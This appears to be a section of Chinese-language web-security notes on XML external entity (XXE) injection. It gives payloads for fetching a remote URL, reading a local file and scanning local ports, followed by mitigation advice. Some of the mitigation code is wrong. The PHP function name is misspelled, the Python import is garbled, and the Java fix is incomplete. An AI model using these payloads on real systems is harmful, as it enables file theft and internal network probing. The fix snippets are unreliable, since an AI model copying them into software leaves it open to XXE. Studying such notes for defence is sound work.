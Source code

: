 ## 10. XXE
#XXE
XML的实体注入，进行ssrf、读取文件、执行命令、扫描端口

```xml
<!DOCTYPE aaa[
<!ENTITY a SYSTEM "http://test.com/temp.txt">
]>
&a;
<!DOCTYPE aaa[
<!ENTITY b SYSTEM "file:///D:/t.txt">
]>
&b;
<!DOCTYPE aaa[
<!ENTITY c SYSTEM "http://127.0.0.1:8080">
]>
&c;
<!--存在是HTTP request failed；不存在是connection failed>
```

修补XXE

1.   使用开发语言提供的禁用外部实体的方法

     PHP: libxml_disable_entry_loader(true);

     JAVA: DocumentBuilderFactory dbf=DocumentBuilderFactory.newInstance();dbf.setExpandEntityReferences(false);

     Python: from lxml import etreexml 

     ​	Data = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

2.   过滤用户提交的XML数据关键词：<!DOCTYPE 和 <!ENTITY 或者 SYSTEM 和 PUBLIC

3.   libxml 2.9.1之后默认不解析外部实体